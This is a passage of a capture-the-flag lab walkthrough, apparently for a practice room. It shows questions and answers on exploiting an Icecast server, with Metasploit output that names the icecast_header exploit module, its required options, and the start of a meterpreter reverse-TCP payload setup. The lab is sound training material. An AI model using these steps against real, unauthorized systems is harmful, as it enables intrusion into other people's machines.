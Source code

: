 ```

A: DARK-PC (see scan above)

## Task 3 Gain Access
---

Q: Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.

  ADD IMAGE HERE

Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

A: exploit/windows/http/icecast_header
```
msf6 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```
Q: Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank? 

A: RHOSTS

```
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):
